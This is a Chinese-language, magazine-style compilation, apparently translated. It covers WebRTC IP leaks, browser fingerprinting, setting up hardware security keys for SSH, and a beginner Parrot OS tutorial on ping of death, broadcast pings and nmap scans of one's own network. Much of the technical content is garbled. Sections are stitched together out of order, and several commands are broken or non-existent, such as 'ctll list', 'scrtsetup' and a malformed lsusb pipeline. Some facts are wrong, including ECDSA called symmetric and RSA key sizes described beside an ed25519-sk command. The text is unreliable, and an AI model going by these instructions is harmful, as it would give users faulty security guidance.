服务器运营商（如果他们保留并查看）日志，可以看到向其机器发送请求的每台机器的 IP 地址。而这正是 VPN 发挥作用的地方：这些日志将仅显示 VPN 服务器的 IP 地址。但这并不意味着原始 IP 地址就完全安全无虞。如果浏览器提供商的视频和语音通信是通过使用 WebRTC（实时通信）协议的服务器实现的，情况就不同了。由于大多数人都处于某种路由器（NAT）之后，而且端口转发确实很麻烦，通常无法建立一个可以路由所有此类流量的点对点连接。因此，WebRTC 使用中间 STUN（NAT 会话遍历实用程序）服务器来发现自己的公网 IP 地址并建立连接。因此，仅凭几行 JavaScript，网站服务器运营商就能获知客户端的原始 IP 地址，即使他们处于其他代理之后。

### 抛弃 WebRTC

值得注意的是，针对 VPN 设备（如 Fortinet 和 Pulse Secure 提供的设备）的攻击正在增加。2021 年 4 月，攻击者能够访问国防工业的数十个组织（详见 https://edition.cnn.com/2021/04/20/politics/finey-pulse-secure-vpn-exploit/index.html）。在这种情况下，一次协调的安全性响应（以及美国国土安全部的建议）减轻了损失，但随着我们越来越多地依赖 VPN 来保护工作场所的秘密，进一步的攻击将是何时发生的问题，而不是是否会发生。

用 Firefox 对抗 Facebook。同时也对抗所有其他跟踪 Cookie 欺骗者。

### WebRTC 的隐私缺陷

> “仅凭几行 JavaScript，网站服务器运营商就能获知客户端的原始 IP 地址。即使他们处于 VPN 或其他代理之后。”

到这里，我们对 VPN 威胁格局那令人愉快的乐观观点就结束了。我们并不是用同样严厉的口吻评价所有的 VPN 提供商。我们只是不希望看到诚实的网民被欺骗性的指纹识别和虚假的安全性建议所蒙蔽。而且我们厌倦了在我们最喜欢的 YouTube 频道上出现的所有赞助产品植入电视广告。如果你信任你的 VPN 提供商，请告诉我们他们是谁以及你为什么信任他们。✉

### 浏览器指纹识别

我们已经看到，除了 IP 地址之外，用户还可以通过其他方式被识别。一个我们尚未讨论的（除了在引言中简要提及）方式是浏览器指纹识别。即使没有浏览器指纹识别，我们虽然会对 User Agent 字符串（这很容易被伪造）做出响应，但事实证明，每个人的浏览器行为都略有不同。具体来说，不同的字体（或 JavaScript 构建的 `<canvas>` 元素）在具有不同分辨率的不同系统上渲染得略有不同。同样，每个人都有自己的 WebGL 属性和一组任何旧网页都可以随意请求的标头。所有这些变量都可以被测量，且具有足够的多样性，通过研究少量的指标，网站运营商就可以唯一地识别你的浏览器指纹。

Tor 浏览器采取了步骤来阻止浏览器指纹识别，目标是让所有 Tor 浏览器用户看起来大致相同。你也可以使用 EFF 的 Privacy Badger 浏览器插件，它可以拦截试图进行数字指纹识别的跟踪器。流行的 NoScript 插件也能提供帮助，但这会干扰许多网站的功能。浏览器插件及其响应也可以作为指纹识别过程的一部分被分析，因此在实践中，很难完全避免这种身份泄露。

请访问 EFF 的 Cover Your Tracks 网站 https://coveryourtracks.eff.org，看看你的浏览器有多独特。

### 硬件密钥

### 理解并部署安全密钥

Stuart Burns 将揭示你如何使用安全密钥和多因素认证（MFA）快速提升系统的保护水平。

**我们的专家**
Stuart Burns 是一位专注于云和安全的管理员，专门从事大规模虚拟实施。

用户名和密码最初被设计用来证明尝试登录的人确实是他们所声称的那个人。在某些时段，理查德·斯托曼（Richard Stallman）著名的做法是在他的首批系统中不设置密码，因为“它阻碍了协作”。即使在今天我们所熟知的网络演变之前，这也是一个勇敢的选择。

我们今天使用的用户名和密码足以作为启用访问的身份证明。但如今情况不同了。随着大量密码和账户窃取事件的发生，简单的用户名和密码组合不再被认为是安全的。特别是考虑到利用强大的云 GPU 计算来逆向工程密码，从而暴力破解被盗密码哈希的能力。任何具有显著价值（无论是经济上还是其他方面）的内容，都应该受到尽可能严密的安全保护。

### 加盐哈希

大多数具备安全意识的网站现在使用加盐哈希（salted hashes）。这些是单向函数（类似于物理陷阱门），使开发人员能够以较低的 CPU 时间轻松加密密码，但极其难以解密。在正确加盐的哈希环境中，逆向工程所有密码组合将是一项徒劳、昂贵且耗时的任务。“加盐”是指在加密密钥中添加第二个额外的唯一值，使逆向破解密码哈希变得更加困难，因为这样就无法通过预构建的哈希表（彩虹表）进行破解。关于盐值的更多信息可以在 https://wiki.pulsepoint.org/wiki/Salt_table 找到。

为了增强安全性，软件令牌和硬件令牌的概念被引入。它们在密码之外引入了多因素认证：你知道的东西——密码（第一因素），以及你拥有的东西——安全令牌，甚至是带有 TOTP（基于时间的一次性密码）计数器（生成一组轮换数字）的手机。这包括 Google Authenticator。虽然软件令牌对于大多数用户来说已经足够，但除了网站登录之外，它们对安全性的提升有限。硬件令牌通过增强安全密钥的唯一用法，将安全性提升了一个层次。这些加密密钥将用户的身份扩展到一种身份，甚至可以用来对代码、电子邮件等进行签名。

如果 Yubikey 只是插入并快速轻点，它会执行一个静态密码。很多人转向硬件密钥时认为这太难了，但它实际上是一个简单却神奇的、适用于所有场景的安全密码。它纯粹是一个静态密码，应在因某种原因需要强密码的地方使用。然而，它不能单纯替代该密码，因为如果有人知道它属于那个唯一的人并掌握了它，他们就拥有了入口密码。它的理想使用场景是作为密码的开头或结尾，结合额外的文本部分组成完整的密码。这使得任何人尝试破解密码变得更加困难。

### 公钥与私钥

在我们继续深入之前，让我们定义一下什么是公钥和私钥。它们是现代互联网安全的基石。其核心理念是可以使用一对系统来提供两个密钥：公钥和私钥。公钥允许人们加密消息，从而使只有私钥的所有者才能读取这些消息。公钥正如其名，可以根据要求共享。只有私钥能解密用公钥加密的数据。

提供的命令行工具可用于有效地管理卡上的设置，例如 PIN 码、身份标识和管理权限。


### 双因子身份验证

同时，它提供了不可否认性：本质上，它保证了例如对电子邮件进行数字签名的写入者确实来自于其声称的发送者。

公钥/私钥之所以如此出色，还在于无需共享敏感信息（如密码等可能被截获和窃取的资料），而是提供了一种高度安全的机制，在私密双方之间实现双向的私有数据保存。

配置正确时，硬件令牌可用于仅允许经批准的用户访问。如果主机后台运行着恶意软件，它需要 2FA 授权才能执行其意图；这样它就为未经授权的权限提升提供了物理屏障，因为恶意软件无法获取要使用的公钥——即物理令牌。

在这里，我们演示如何配置这些物理令牌，以及如何使用它们登录某些 Linux 环境。我们使用了 Ubuntu 20.04 LTS，但几乎所有基于 Linux 的操作系统都具有相同的功能。

为什么不直接使用手机？虽然有手机总比没有好，但手机运行着数百万行代码，其鲁棒性不如硬件钱包。手机会损坏、丢失或被重置。而你上次弄坏车钥匙是什么时候？此外，随着公司规模的增长，手机在管理手机号码方面会产生额外的开销，还可能因携号转网而丢失号码等。总的来说，它们给管理员带来的心累程度超过了实际需要。虽然可以大规模管理，但需要支付相应的成本（软件和许可）和管理开销。

双因子身份验证（也称为 2FA 或多因子验证）在密码之外为您的账户增加了额外的安全层。当您在启用 2FA 的情况下登录时，系统会提示您使用安全密钥、输入验证码或在移动设备上点击确认，具体取决于您在下方选择的方法。

设置设备身份验证 (U2F) 其实只需几个简单的步骤。它使用硬件令牌（如 YubiKey），并支持 Chrome、Firefox 和 Edge 浏览器。

要使用 Google Authenticator 或 Authy 等身份验证应用启用基于应用的 2FA，请点击启用并使用任何兼容的应用扫描二维码。

这是一个关于用户如何选择使用各种多因子工具的示例，这些工具内置了对 YubiKey 等硬件令牌的支持。

当用户为基于 Web 的服务设置 FIDO 密钥时，被服务的服务（网站）会继续提供其公钥。随后，该公钥由 FIDO 密钥以数字方式存储（此时用户会被要求按下密钥上的按钮），用户返回的签名密钥经过验证后被存储，并用于未来的身份验证。

> **快速提示**：保存 MFA 恢复代码至关重要。如果您丢失了手机或供应商，这些代码可用于紧急访问。这意味着如果 MFA 管理不当，在经历一段漫长且繁琐的文书处理过程之前，您将无法重新获得访问权限。

### 什么是硬件密钥？

重要的是要理解，并非所有硬件令牌都是一样的。广义上说，硬件密钥分为两类。标记为符合 FIDO (Fast Identity Online) 标准的密钥本质上仅用作第二因子，用于向支持的服务验证用户身份。另一类则是那些（多因子身份验证）能够完全替代密码的密钥。这类密钥显然更昂贵且更专业（可提供 YubiKey 和其他多因子验证器，例如 https://solekeys.com 的 Solekeys，它是一个开源实现而非封闭的专有产品）。它们可用于安全地存储秘密——例如可用于签署代码、登录服务器等的公钥凭据。

使用这些令牌登录支持 FIDO 的网站，只需按下密钥即可证明身份。您可能会想：“但这是否意味着所有使用 FIDO 密钥的网站都使用同一个密码？”答案是否定的。

这一切都在后台完成。当用户首次登录服务时，后台通过提供密钥、获取签名并返回签名密钥的过程来设置密钥。如果服务根据最初创建和存储的值修改了公钥，则登录将被拒绝。这意味着，得益于非对称密钥对的使用（服务器持有公钥，FIDO 设备上的私钥唯一），用户持有的密钥可以根据需要对任何生成的密钥进行签名。如果没有另一部分，密钥的一部分将毫无用处。

不幸的是，目前许多提供 2FA 的网站实现得并不正确。从理论角度来看，可用服务的数量其实令人满意。其中包括 GitHub、Microsoft、GitLab、AWS、Azure、ProtonMail 等。每个注册和密钥登记过程都不同，但它们都允许用户添加密钥，从而显著提高账户的安全性。然而，如“快速提示”所述，如果您丢失了所有硬件密钥，那么找回账户可能会非常困难。简而言之，请确保您的文档中始终保存有所有正确的密钥。

既然我们已经了解了 MFA 密钥以及如何使用它们来确保关键网站的访问安全，现在来看看密钥的更高级用法。只有高端型号支持在设备上下载 SSH 私钥，或允许硬件密钥成为公钥/私钥交互的一部分。

使用 USB 适配器时请谨慎。某些用户可能会尝试使用适配器连接硬件密钥。由于大多数适配器无法按预期工作，即使经验丰富的人也建议使用适合相关设备的正确版本。

### 建立您的安全密钥

创建和加载加密密钥过去是一个繁琐的过程。根据您的需求，现在这个过程已经精简了许多。使用 OpenSSH 8.2 版本，现在有一些选项可以极大地简化 SSH 密钥的管理和使用。新选项 `-sk` 确保密钥在设备上生成为参数化密钥。这意味着加密选项创建的密钥包含常规密钥流程，但还要求用户按下物理令牌，从而为密钥创建第二个（对用户的物理设备而言是唯一的）部分。

因此，要使用该密钥进行身份验证，需要这两个部分共同验证私钥通过。如果用户不按下密钥，无论秘密值是什么，该部分都无法从磁盘证明。攻击者从磁盘获取密钥的唯一方法只能得到方程式的一部分，而无法获得需要物理交互的另一半（物理密钥）。这种方法的一个优点是不需要特殊配置；它的工作方式与任何其他密钥一样。当您通过 SSH 登录服务器时，硬件令牌会闪烁，提示您按下。这样，磁盘上的密钥和硬件密钥共同提供正确的私钥。

理论部分讲解完毕，现在让我们将其付诸实践。将硬件密钥插入 USB 端口。它应该会短暂闪烁以显示正在工作。最好先检查操作系统是否能识别该密钥：

```bash
$ sudo ctll list -g i-yubikey all
```

您现在应该看到类似于截图中显示的输出。需要注意的是，Yubikey 有两种模式：普通模式（normal）和管理员模式（admin）。安装 Yubikeys 所需的工具现在非常简单；一个很好的起点是：`sudo apt install gpg-agent scrtsetup gpgconf`。

您需要重启本地桌面以启用新服务启动。现在 `gpg-agent` 应该能识别并查询该卡片了。

```bash
$ gpg2 --card-edit
```

默认模式用于启用所有者的写入访问（允许加载或删除密钥），主模式（master mode）用于执行密钥主重置等任务。默认管理员 PIN 码为 `123456`，主 PIN 码为 `12345678`。本教程假设硬件密钥使用默认 PIN 码。输入 `quit` 即可退出 gpg2，但现在先不要退出。

### 克服致命缺陷

重要的是要理解，较旧的 Yubikeys（v5.2, 5.3 之前）不支持目前被认为是行业标准的加密曲线。该加密类型使用对称（椭圆曲线数字签名算法）。为什么这很重要？研究人员在 RNG 加密过程中发现了一个致命缺陷，即随机性不足以保证安全。通过足够的计算，它可以被反推。这是一个致命缺陷。

不幸的是，Yubikeys 不允许升级固件，因此仅支持此项的密钥可能被视为弱密钥。要查询您的密钥版本，请使用以下命令：

```bash
$ lsusb -v2 -d /dev/null | grep -A2 Yubico | vg cut "bcdDevice" | awk '{print $2}'
```

显然，在终端执行这些操作似乎不是个好主意。要在虚拟终端中执行此操作，请在 gpg2 菜单中使用以下命令：

```text
admin
passwd
```

这将允许您更改标准 PIN 码，系统会提示读者使用当前 PIN 码进行验证并将其替换为新 PIN 码。请花时间准确指定，并确保确认新 PIN 码。

- 使用硬件令牌通过 SSH 登录远程虚拟机。不要忘记测试电源插孔。

### 不要依赖 SMS 验证

某些网站允许用户使用一次性 SMS 验证码。它们提供了一定的保护，但程度不高。SMS 验证码有一个致命缺陷：具有足够动力和资源的攻击者可以通过一种称为“SIM 卡克隆/替换 (SIM swapping)”的技术接管手机号码，从而为不法目的截获任何 SMS 验证码。这需要极强的社会工程学能力，或者在网络运营商内部有不良人员可以接管身份并将其转移到自己的设备上。

这不是理论上的情况。这是一种众所周知的攻击方式，已被许多不法分子用于从第三方窃取高价值物品，通常与加密货币（比特币等）相关。它甚至被用于接管高价值的 Twitter 账号。同时，请保持警惕，因为重置账户的请求虽然看起来合理，但它并不比没有任何保护好；真正的 TOTP 将能化解这类陷阱事件。

### 破解硬件

硬件密钥并非万能药。实现糟糕的系统或有缺陷的加密方案（政府强制的后门？）——(Ed)——都是硬件密钥被不法分子利用的方式。2012 年左右的一个例子是美国政府机构广泛使用的 RSA SecurID 800。

研究人员改进了一种 2002 年的方法，将检索 RSA 签名所用加密密钥的时间缩短至仅 13 分钟。这在较小程度上也影响了当时其他类似的设备。

该方法利用 PKCS#11 API 中的一种常见方法，通过百万次消息攻击，在短短 9,400 次调用中泄露一个 1024 位密钥，研究人员称这在实际操作中是可行的。RSA 对此说法提出了异议，但承认当时的 RSA SecurID 800 确实更脆弱，因为它完全在 PKCS#5 v1.5 标准中使用了 1024 位密钥。更多详情请参阅此处：https://arstechnica.com/information-technology/2012/06/securid-crypto-attack-steals-keys。


关于管理员 PIN 码的流程。虽然在我们的场景中没有用到 PIN 码，但如果你想使用 Windows Hello 等服务，这为后续操作奠定了基础。默认情况下，简单的 PIN 码是不安全的！

要创建初始的公钥/私钥对，请使用以下命令。无需输入密码短语（直接按 Enter 键即可），因为在这里我们本质上是用硬件认证部分的安全性来替代密码短语的安全性。虽然密码短语可以保护密钥，但对于相对较小的私钥，暴力破解攻击很容易将其瓦解。`-t ssh-rsa` 模式将密钥拆分为位，4096 是其大小。不过，这属于个人选择。

```
$ ssh-keygen -t ed25519-sk
```

在你的二级密钥（经过认证的密钥）上，运气很重要。这很有用，因为密钥将使用的 RSA 算法本质上就是密钥将使用的算法。

```
$ ssh-keygen -t ed25519-sk
```

为密钥指定注释也是可行且潜在有用的。如果你在命令末尾简单地加上 `-C "comment here"`，这在区分不同密钥时会非常方便。还应注意，`-sk` 变体并不限于 Linux，在任何支持硬件令牌密钥的主流操作系统上都能同样高效地工作。

### 创建两组密钥

硬件密钥会闪烁，提示你触摸它。一旦你这样做，它就会创建一个需要 Yubikey 和新生成的密钥共同配合才能使用的密钥。我们强烈建议创建两组密钥，这样如果丢失了一组，仍然可以获得访问权限。到此为止，客户端已配置完成。剩下的就是使用 SSH 服务配置来配置服务端。当启用密钥并禁用“标准”密码时，这将大大增强服务器的登录安全性。

登录到 Ubuntu 服务器。为了方便起见，我们使用一个本地虚拟机（VM）。在正式使用这些步骤之前，请先在可丢弃的虚拟机上尝试。如果不小心，你可能会把自己锁在外面，无法远程登录。

首先，需要将我们要使用的密钥复制到目标主机中。Ubuntu 以及所有其他主要发行版都提供了一个工具来复制公钥并配置主机设置。这个工具就是 `ssh-copy-id`：

```
$ ssh-copy-id stuart@mytesthost
```

要使用此命令，用户必须使用用户名和密码组合登录。完成后，尝试从 Ubuntu 命令行登录，例如使用新创建的密钥。Shell 此时不应提示你输入密码。如果遇到错误，读者可以使用以下命令详细查看失败原因：`ssh -v user@host`。

一旦确认访问正常工作，就可以对服务器上的 `sshd_config` 文件进行一些微调，以确保访问真正安全，包括禁用 root 直接登录以及用公钥加密替代用户名/密码组合。

```
$ sudo vi /etc/ssh/sshd_config
```

复制以下行并将它们修改为如下所示：

```
PermitRootLogin no
PubkeyAuthentication yes
PasswordAuthentication no
```

上述配置要求用户最初不能以 root 身份登录（显然我们拒绝了 root 访问）。为此，请创建一个具有 sudo 权限的用户账户用于登录。为了让生活更轻松，读者可以将 Port 更改为非标准端口，例如将 Port 22 更改为 Port 2220。完成后，重启 sshd 服务（`sudo service ssh restart`）或重启机器。在更改端口后登录，需要使用 `-p` 选项指定新的备用端口，例如：

```
$ ssh -p 2220 stuart@mytesthost
```

总之，硬件密钥有多种用途，从为支持它们的网站提供安全的双因子认证，到通过增强安全性的公钥/私钥对来确保服务器访问安全。它们能实现的功能远不止这些，这有待读者去探索。

> **快速提示**
> 许多人会好奇 MFA（多因素认证）是否真的有区别。我们可以向你保证，它带来了巨大的改变。我发现当实施基于硬件的 MFA 后，账户被盗用次数下降到了零。许多其他人也重复验证了这一结论。

YubiKey 5 令牌有多种形式，包括支持 NFC 的版本。请明智选择。

### 2022 黑客工具箱

### 帅气且资深的“海盗”Jonni Bidwell 展示如何驯服你的 Parrot。也就是 Parrot Security OS...

涉及“黑客攻击（hacking）”这个动名词的高调头条新闻变得越来越普遍。（在蓝莓没卷走数百万计的加密资产或“无价”的 NFT 之前，日子总是美好的）。这很遗憾，因为很多防御这些计算机恶作剧的人本身也被称为“黑客”。我们将在文中继续讨论，但重点是：勒索软件、拒绝服务攻击，甚至国家赞助的网络行动都在增加。

在过去，Linux 用户可能觉得很安逸。在 90 年代初，Linux 还很年轻时，尝试攻击它的人可能不多。这很大程度上是因为没有什么可以攻击的。但这种情况在几年内发生了变化；Red Hat 和 openSUSE 巩固了 Linux 在服务器市场的地位，随后扩展到云端和 20 亿部手机中，同时一些古灵精怪的个人将其作为桌面操作系统使用。

计算生态系统变得极其复杂。事实上复杂到除了常规指南——“不要点击可疑链接”、“小心电子邮件附件”和“保持软件更新”之外，我们能给普通用户提供的基础建议已经不多了。

因此，我们转而研究力量两端黑客所使用的技巧。我们将为你展示一个以 Parrot Security OS 形式呈现的工具箱。可以说这是一个真正的黑客工具箱，它将教会你渗透测试、网络侦察和漏洞利用的方法。能出什么错呢？

### 掌控星球/Parrot

### 从通过 USB 引导安装 Parrot Security OS 开始。

通常在这些黑客主题的专栏中，我们倾向于审慎地使用 Kali Linux，这是一个装满了渗透测试和 OSINT（开源情报）工具的发行版。但它并非唯一选择——Parrot OS 同样强大。我们建议你前往 **https://parrotsec.org** 获取并安装该版本，并通过 Etcher 将其写入 USB 闪存盘。然后，游戏就可以开始了。

> 黑客知识网站 hackthebox.com 拥有使用 Parrot 的挑战和实验室，这是一个基于浏览器的虚拟 Parrot Security 版本。

在探索 Parrot OS 之前，先来看看熟悉的 MATE 桌面。基于 Cinnamon，其布局被组织成从隐私工具到文本编辑器的各种类别。大多数专业软件都在 Pentesting（渗透测试）类别中，你可以在那里找到密码破解器、社会工程学工具和许多端口扫描器。System Services（系统服务）类别允许你启动各种数据库和 Web 服务，这些服务对于某些程序或针对本地托管的 Web 应用程序至关重要。

Parrot 分为 Desktop（桌面）和 Security（安全）版本的原因之一是，你可能并不希望所有那些具有 root 权限的工具都堆在你的桌面上。仅仅将它们放在那里就是一个安全风险。不是因为有人能利用它们，而是因为在不恰当的人手中，它们会毁掉自己的系统。简单来说，不建议将像 Kali Linux 这样（默认仅 root 用户账户）的系统作为日常驱动。当然，你可以安装它们（例如，参见 **https://parrotsec.org/docs/installation.html**），但请记住，Parrot Security 和 Kali Linux 也可以通过可启动 USB 闪存盘镜像运行，从而无需进行任何形式的安装。

尽管如此，在 Live 环境中工作有点烦人，因为必须记得将数据保存到另一个设备或云端（因为在 Live 环境中进行的任何更改在关机后都会丢失）。幸运的是，Parrot 让创建具有持久化（persistence）功能的 USB 闪存盘变得非常简单。由于 Security 版本接近 5GB，USB 3.0 驱动器将为你提供 3GB 的持久存储空间。这就像下面的三步走指南所建议的那样简单。

### 不要操之过急

菜单中的许多程序都是命令行操作。例如，如果你前往 Pentesting $\rightarrow$ Web Applications $\rightarrow$ vulnerability scanning，然后会打开一个终端窗口，显示 wps (WebApplication Gathering) 的帮助页面。阅读完帮助页面后，你现在可能想使用此页面来记住哪个扫描（你最喜欢的网站）需要哪些参数。

但在 Parrot Security 中，root 以普通用户身份运行，正如你在 syslog ZSH 提示符中看到的那样。但有些程序会自动以 root 身份运行，例如 Rooten Gear-NX（在 ... 菜单中）或任何构造数据包或需要特殊权限的程序。所以，即使你记不住 `sudo` 也不需要使用它！Parrot 直接在 `/usr/share/webshells` 目录下打开一个终端。

### 安装 PARROT

- 1. **获取 Parrot**：第一步是创建一个常规的 Parrot USB。从 **https://parrotsec.org** 下载 ISO。我们建议使用 Balena Etcher 或其他许多图形化 USB 写入工具，但如果你愿意，也可以通过命令行将 ISO 写入 USB。
- 2. **添加分区**：不要直接启动 USB，而是在 Gnome Disk 或 Gparted 中打开它。你会看到驱动器末尾有一些剩余空间。在此空间中创建一个新的 Ext4 分区，并可选择为其命名。完成后，新分区应在你的文件管理器中可见。
- 3. **持久化即幸福**：为了让 Parrot 识别持久化分区，该分区必须包含一个名为 `persistence.conf` 的文件，而该文件又必须包含文本 `/ union`。根据你的文件系统权限设置，你应该可以使用任何文本编辑器来完成此操作。


### 黑客入门 101

### 从简单的 ping 命令开始，逐步深入到一些隐秘的网络侦察活动……

自从臭名昭著的“学习黑客”专题让我们在 Bar none & Bustle 惹上麻烦以来，已经过去了近 10 年，但为了稳妥起见，让我们先从一个警告开始。不幸的是，“黑客（hacking）”这个词被媒体和娱乐产业所劫持，在这些领域中，它被反复用于指代在计算机上进行的任何和所有非法活动。而传统的（且正确的！）用法是指向更为高尚的追求：钻研、重新构想并使机器以一种非设计初衷的方式运行。

等等，那还不是警告：接下来的才是：无论你在本专栏中学到什么，请意识到不恰当地使用计算机可能会让你进监狱或陷入巨大的麻烦。我们在这里介绍的一些工具可能会造成真正的破坏。而且，对于一名熟练的防御者来说，检测这些工具的使用、追踪你的 IP 地址并通知当局是非常简单的。虽然有一些不被抓获的技巧和方法，我们也会教给你，但请将你所有的入侵尝试、秘密侦察以及 Bobby DP 式的 TABLES 风格 SQL 注入仅限于你自己的基础设施内。在自己的网络中四处探索有许多值得学习的地方。谁知道呢，也许你会发现路由器中的一个小配置错误甚至是一个漏洞，或者一个意外暴露在互联网上的 Raspberry Pi。

让我们首先使用 Parrot OS 来进行一些网络侦察。具体来说，我们将尝试识别网络中的每一个设备。

在利用 Parrot 的强大武器库之前，我们将使用所有操作系统都自带的“简单” ping 命令来攻击目标。“Ping”涉及向一个主机（或者像我们稍后将看到的，向多个主机）发送一个 ICMP 数据包。如果该主机没有被配置为拦截或忽略这些数据包，它将回复一个确认包。

拦截 ICMP 数据包不足为奇，因为它们对于诊断网络故障非常有用；然而，如果你能回想起 1997 年（并且足够幸运地在当时能接触到网络），你可能会记得一个被称为“死亡之 ping (Ping of Death)”的流行产物。这种攻击涉及创建一个比预期更大的 ICMP 数据包（ping 通常只有 64 字节）。该数据包被分成若干块发送到目标机器，目标机器接收这些块并尝试将它们拼接在一起，然后立即崩溃。导致这种缓冲区溢出的原因是，过去纯洁的 TCP/IP 协议栈仅为简短的响应包分配所需的最小内存，并且在写入之前没有检查边界，从而导致系统崩溃。

### 警惕死亡之 ping

Ping 自 1983 年起就已存在，大多数操作系统都有自己的程序实现。在 1997 年之前，几乎所有系统都容易受到死亡之 ping 的攻击。例如，Windows 95 的版本允许用户指定 `dat` 参数，从而改变数据包数据字段的大小。该字段本应为 56 字节（报头额外增加 8 字节），但该命令会接受任意值。将其设置为 65500 左右通常足以使目标机器瘫痪。由于这次攻击被广泛宣传，互联网上的服务器和工作站很快就通过适当的畸形数据包过滤器和边界检查进行了修复。

Linux 的 `ping` 命令仍然允许尺寸参数，但如果你自己尝试一次这样的 ping，例如：
`$ ping 127.0.0.1 -s 65500`
你会看到返回了一个数据包，而你的机器并没有死掉。在这种情况下，对 ping 程序的输入进行净化并没有实际意义。请记住，与网络硬件通信的是内核，任何人都可以编写自己的 ping 程序，以任何他们喜欢的参数来进行这些内核调用。这可能会阻挡没经验的脚本小子（script kiddies），但无法阻挡资深攻击者。

死亡之 ping 背后的思想可以推广到其他 IP 数据包，但几乎每个操作系统都已部署了防御措施。不过，x86 版本的死亡之 ping 在 2013 年的 Windows 上短暂出现过。

### 捕捉广播标志

ping 一个较少为人知的特性是广播标志（broadcast flag），这就是我们将用来进行网络侦察的手段。正如我们之前提示的，这使得被 ping 的不再仅仅是一台敌方机器，而是一个庞大的群体。尝试在家里运行以下命令，根据情况替换 IP 地址的前几位（255 是一个“保留”值，表示广播地址，在本例中用于验证从 192.168.0.1 到 192.168.0.254 的所有设备）。

```
$ ping -b 192.168.0.255
```

这里我们向广播地址发送一个数据包，然后等待每台机器的响应包。请注意，你应该忽略前几个提示你正在 ping 广播地址的数据包，因为如果用户认为单个主机返回了多个响应，会感到有些困惑。你应该会收到网络中某些机器的响应，不过许多操作系统（包括大多数 Linux 发行版）默认不响应这种类型的广播。识别哪台机器是谁是一个复杂的过程（除非你在浏览机器的配置页面），但至少它让我们对网络中的设备数量有了大致的了解。你还会看到往返时间（roundtrip time），这可用于诊断网络拥塞或路由问题。我们稍后会详细讨论时间点和 ping 延迟。现在让我们回到网络侦察。

一种更有效（且更隐蔽）的枚举局域网机器的方法是，被动地“嗅探（sniff）”在网络中流动的数据包。然后我们可以从这些数据包中收集源地址和目的地址。我们将使用 EtherApe 工具来完成此操作，它能非常直观地在实时发现主机时将其绘制在椭圆中，并显示它们之间的流量。你可以在“应用程序”菜单的 Pentesting $\rightarrow$ Information Gathering 部分找到 EtherApe。

### 分析你的网络

> “我们向广播地址发送一个数据包，然后等待每台机器返回四个响应包。”

在对网络中的机器数量有了初步了解后，我们可以对数据包进行更深层的观察，看看它们在做什么。Wireshark 程序是执行此任务的行业标准，且易于上手（点击 Pentesting > Most used tools）。无论好坏，黑客都会使用数据包捕获（pcap 文件）来获取像 Wireshark 这样的快照，用于从侦察到逆向工程的一切工作。或者，我们可以使用 Nmap，另一个无处不在的黑客工具（它甚至出现在《矩阵》第二部电影中），来扫描我们的网络并查明那些机器在做什么。

### Nmap 介绍

Parrot 自带了一个便捷的 GUI 前端，让你无需学习 Nmap 冗长的命令行语法（至少在网络页面之前不需要）。你可以在 Pentesting $\rightarrow$ Information Gathering $\rightarrow$ Nmapscan 下找到它。有一个以 root 身份运行的选项，但请放心，目前你无需担心这个问题。

在“选项（Options）”界面选择“发现网络（Discover network）”，然后指定 CIDR 地址和前缀长度。例如，要扫描以 192.168.0 开头的 256 个地址，请使用地址 192.168.0.0/24 且前缀大小为 24。如果你喜欢二进制，这意味着所有与 (32 位) IPv4 地址前 24 位匹配的地址。现在点击“开始（Start）”按钮，后台终端将激活，直到扫描完成。

完成后，使用顶部的按钮保存发现的 IP 列表。我们将在下一页对此进行进一步分析。如果你使用了前面描述的 USB 持久化，并使用高级菜单中的其中一种持久化模式启动，那么你可以将其保存在默认用户的主文件夹中，重启后它仍然存在。否则也不用担心，因为稍后很容易重新生成这个列表。


### Nmap 深度解析

Nmap 是一款隐蔽的端口扫描工具，对于任何有能力的黑客或心怀鬼胎的网络管理员来说，它都是其工具库中不可或缺的利器。


我曾见证过简单的 `ping` 命令不仅能告诉我们机器是否可达，还能告诉我们本地网络中有多少台机器。如果我们在时间列中稍微分析一下，我们甚至可以推测这些机器背后经过了多少个网关。然而，在进行网络侦察和端口扫描时，没有什么能比 Nmap 更好用了。

既然我们已经拥有了一个局域网机器的 XML 列表，我们可能会想是否可以重复利用它，以避免再次扫描网络。遗憾的是，正如 Nmap 的网络发现功能所证明的，它不能简单地接收一个列表（或者说我们无法给它提供一个列表）。因此，让我们打开终端手动操作。首先，只需输入以下内容：

```
$ sudo nmap 192.168.0.0/24
```

这将像之前一样扫描本地网络，但它不会仅仅地 ping 机器，而是会探测每台机器上最常见的 1,000 个服务端口，并告诉你是否有任何端口正在监听。此外，当我们以 root 权限运行它时，它会提供关于每个主机的额外信息，包括一些 MAC 地址信息以及与之相关的制造商。这是我们在家庭网络中寻找树莓派 IP 地址的最爱方式。由于我们通常在大多数此类设备上启用了 SSH，因此这里我们只需要扫描 22 端口：

```
$ sudo nmap -p 22 192.168.0.0/24
```

如你所见，Nmap 不在乎你更喜欢使用通配符还是子网掩码。但有一个小提醒：Pi 4 使用的以太网适配器与之前的型号不同，因此上述结果显示的将不再是 Raspberry Pi Foundation 分析结果。

### 识别运行中的服务

让我们启动 Nmap 并考虑运行在你自己网络中的服务。查看屏幕上的输出可能会导致扫描（取决于你网络中的设备正在做什么），所以请先仅显示主机。通过列出接口、Windows 文件共享 (NetBIOS/SMB/CIFS)、远程桌面 (VNC/RDP) 以及一些你可能从未听说过的事情，运行中的服务可能仅限于这些列出的项。请注意，在这个阶段，名称只是根据端口号推测出来的。

现在考虑你的家庭路由器壁挂盒。它肯定在某个控制面板端口上运行着 Web 服务，但为了更全面地检查，我们可能希望查看运行的其他服务。如果你想扫描每一个可能的端口，可以执行以下操作：

```
$ sudo nmap -p1-65535 192.168.0.1
```

这并不是一种特别智能的扫描方式。Nmap 默认的 SYN 扫描非常精巧，但在扫描所有关闭的端口时并不快速。这些端口可能会拒绝传入的 SYN 数据包，在这种情况下，扫描将快速完成。或者，连接数据包会被静默丢弃，导致 Nmap 等待一个永远不会到来的响应。这其中可能涉及到一个与时间相关的框架！

如果你让之前的命令运行一段时间，然后按下空格键，你会看到一个进度估算。估算时间并不总是准确的。在我们的案例中，这接近 1 天，所以我们决定尝试另一个工具。Masscan（信息收集-网络与端口扫描器）仅用了 15 分钟就告诉我们可以找到路由器上运行的服务！

注意到到目前为止，我们的侦察行为产生的“噪音”在增加。我们首先使用 Etherape 在网络中静默地发出“嘀嘀”声，然后使用 Nmap 进行几乎无法被检测到的探测以找到所有主机，现在我们选择一台主机并进行“敲门”检查。而且情况即将变得更糟糕。

### 北方暴露 (NORTHERN EXPOSURE)

